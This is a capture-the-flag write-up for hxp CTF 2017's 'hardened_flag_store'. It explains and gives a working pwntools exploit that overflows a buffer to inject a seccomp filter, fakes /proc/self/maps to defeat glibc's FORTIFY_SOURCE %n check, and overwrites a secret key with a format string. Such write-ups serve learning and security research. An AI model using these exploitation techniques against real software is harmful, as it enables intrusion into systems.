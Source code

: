 # Writeup for hardened_flag_store (pwn, 300 + 20 pts, 15 solves), hxp CTF 2017

Description:

> finally a secure way to store my precious flogs
>
> Download: [2c020cca2c607610b33c8490653a6a420a86d89787278a7c72340833482ff4fd.tar.xz](https://2017.ctf.link/assets/files/2c020cca2c607610b33c8490653a6a420a86d89787278a7c72340833482ff4fd.tar.xz)
>
> Connection: nc 35.198.105.104 10000

## TL;DR

- using a buffer overflow, we load our own seccomp filter

- with a specific seccomp filter, we bypass glibc's hardening techniques

- we overwrite the secret key stored in memory and get the flag

## The Task

The target binary reads our input, installs a seccomp filter, and compares out input with a secret key. If the keys match, it opens and prints the flag; if not, it prints our input to stderr and jumps back to reading our input.

## The Bug

There's an obvious buffer overflow: we can input up to 96 bytes, which are read into a buffer of 32 bytes. Right after that buffer the seccomp filter is stored, so we can overwrite the filter and thus replace the first 8 seccomp instructions.

Apart from that, there's a fmtstr vulnerability: when we supply an incorrect key, our input is used as a format string to print to stderr; however, the binary is compiled with `_FORTIFY_SOURCE=2` and we cannot use `%n` without messing with glibc.

## The Exploit

When we use a `%n` in a format string, glibc reads `/proc/self/maps` to check if the format string is in read-only memory. If that fails, it complains `*** %n in writable segment detected ***` and `abort`s:

```
open("/proc/self/maps", O_RDONLY|O_CLOEXEC) = 3
fstat(3, {st_mode=S_IFREG|0444, st_size=0, ...}) = 0
read(3, "56134e97a000-56134e97c000 r-xp 0"..., 1024) = 1024
read(3, "                  /lib/x86_64-li"..., 1024) = 651
close(3)                                = 0
open("/dev/tty", O_RDWR|O_NOCTTY|O_NONBLOCK) = 3
writev(3, [{iov_base="*** %n in writable segment detec"..., iov_len=40}], 1) = 40
```

But we control the seccomp filter! Using the `ret ERRNO(0)` instruction, we can force any call to `open()` to return `0`, the file descriptor of stdin; libc then goes ahead and reads `/proc/self/maps` from standard input, so we can supply a fake memory map claiming that our input buffer is read-only.

The format string payload `%20c%20c%n` will write 0x00000028 to where the secret key is stored and thus overwrite it with "(".

One problem remains: when the binary opens the flag file, our seccomp filter makes the syscall return 0 again, and the binary reads the flag from stdin. To solve this, we filter by the first argument of the open syscall: if it points to the flag filename, we allow the call.

Putting everything together, we end up with the following exploit:

```python
from pwn import *

def bpf(op, jt, jf, k):
    return p16(op) + p8(jt) + p8(jf) + p32(k)

if __name__ == '__main__':

    r = remote('35.198.105.104', 10000)

    ld_1 = bpf(0x20, 0, 0, 0)
    jeq_1 = bpf(0x15, 4, 0, 3)
    jeq_2 = bpf(0x15, 0, 4, 2)
    ld_2 = bpf(0x20, 0, 0, 16)
    and_1 = bpf(0x54, 0, 0, 0xff)
    jeq_3 = bpf(0x15, 1, 0, 0x64)
    ret_errno = bpf(6, 0, 0, 0x00050000)
    ret_allow = bpf(6, 0, 0, 0x7fff0000)

    bpf_payload = ld_1 + jeq_1 + jeq_2 + ld_2 + and_1 + jeq_3 + ret_errno + ret_allow

    info("inject custom seccomp")
    r.send('A' * 32 + bpf_payload)

    info("trigger %n check")
    r.sendlineafter('Wrong secret :/\n', '%20c%20c%n')

    info("fake r-x memory")
    r.sendlineafter('Wrong secret :/\n', '000000000000-7fffffffffff r-xp 00000000 00:00 0                          /usr/bin/whatever')

    # we overwrote the secret key with 0x40 == '('
    info("enter secret key")
    r.sendline('(')

    r.recvuntil('hxp{')
    flag = 'hxp{' + r.recvuntil('}')
    info("flag: %s", flag)
```

Flag: `hxp{d0n7_w0rry_glibc_1_571ll_l0v3_y0u}`
